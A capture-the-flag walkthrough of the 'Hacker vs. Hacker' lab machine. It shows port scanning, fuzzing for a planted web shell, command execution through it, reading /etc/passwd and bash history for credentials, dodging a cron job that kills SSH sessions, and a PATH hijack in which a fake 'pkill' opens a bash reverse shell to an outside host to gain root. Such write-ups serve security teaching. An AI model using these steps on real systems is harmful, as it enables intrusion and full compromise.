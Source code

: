 # Hacker vs. Hacker

We start with Nmap

`nmap -sC -sV 10.10.54.39` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Looking at the webpage we find a file upload section. We quickly upload our `php-reverse-shell.php` file.

![page.png](page.png)

But we get back a message.

![image.png](image%201.png)

Looking at the source code we find a code snippet for filtering uploads. The code verifies if there is “.pdf“ in the file name and the directory where the uploaded files are stored : `cvs/` . 

![source.png](source.png)

A change to our filename to `php-reverse-shell.pdf.php`  and upload. Still gets back the same message. Next we try opening the cvs directory. But directory listing is disabled.

![cvs.png](d0e66d33-c935-4abc-9f7c-507692cd8794.png)

We try fuzzing the directory for files with extension `.pdf.php` , to see if our file has been uploaded.

`ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -u [http://10.10.54.39/cvs/FUZZ](http://10.10.54.39/cvs/FUZZ) -e .pdf.php -t 100`

To our surprise we see another file  `shell.pdf.php` . Since the story behind the machine is that it has already been exploited and we are trying to regain control, existence of such a file is possible.

![image.png](image%202.png)

Running commands on that file returns results as expected.

[`http://10.10.54.39/cvs/shell.pdf.php?cmd=ls](http://10.10.54.39/cvs/shell.pdf.php?cmd=ls);`

![image.png](image%203.png)

Retrieving the `/etc/passwd`  file reveals the username `lachlan` .

![image.png](image%204.png)

And we get the first flag from the users folder.

![image.png](image%205.png)

Reading the `.bash_history` file shows a cron job `persistence`  and an attempt to change password.

![image.png](image%206.png)

Using the username and password we were able to login using SSH. But even before being able to run any commands we were getting kicked out along with a message “nope”. This might be the cron job the hacker has implemented to maintain persistence.

![image.png](image%207.png)

Looking at it we can see the path being set to `/home/lachlan/bin`  as the first one. (Not a good idea!)

![image.png](image%208.png)

Quick search and got a breakdown on the code:

/bin/sleep 1 → Delay for 1 second

for f in `/bin/ls /dev/pts` → loop all active pseudo terminal sessions

do /usr/bin/echo nope > /dev/pts/$f  → echo msg nope to all those sessions

pkill -9 -t pts/$f → kill those sessions

Since pseudo terminal sessions are killed, we disable it while logging in. 

We use -T flag of `ssh` , 

`-T      Disable pseudo-tty allocation`

![image.png](image%209.png)

We get a shell not interactive like bash or sh, but still can run commands.

The hacker is using `pkill` to kill the sessions and the file path given first is `/home/lachlan/bin` . Since the process start checking the path from left to right it will be checking `/home/lachlan/bin` first, which we can control. So we create our own `pkill` , which is a reverse shell to our attacker machine.

`echo "bash -c 'bash -i >& /dev/tcp/10.17.17.47/9001 0>&1'" > pkill` 

`chmod  +x pkill` 

![image.png](image%2010.png)

The process is run as root. So we get a root shell back.

![image.png](image%2011.png)
